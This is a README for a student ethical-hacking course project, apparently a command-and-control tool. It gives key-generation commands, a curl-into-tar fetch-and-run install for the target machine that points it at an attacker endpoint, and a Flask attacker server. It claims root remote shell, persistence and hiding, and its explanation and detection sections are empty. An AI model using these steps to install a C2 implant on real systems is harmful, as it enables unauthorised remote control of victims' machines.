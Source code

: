 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Generate keys

```bash
openssl genrsa -out private.pem 1024
openssl rsa -in private.pem -pubout -out public.pem
```

### Target Machine

```bash
curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
cd Command-Control-main
chmod +x setup.sh
./setup.sh {Your Server Endpoint}
# Example: ./setup.sh http://10.0.2.4:5000/commands
```

### Attack Machine

-   Install `flask`
-   Run the flask server

```python
export FLASK_APP=attacker-server.py
flask run --host={Server IP}
```

## How it works

## How it meets the requirements

1. Provide remote root shell access
2. Persistence
3. Configuration
4. Authentication
5. Hiding

## Detection

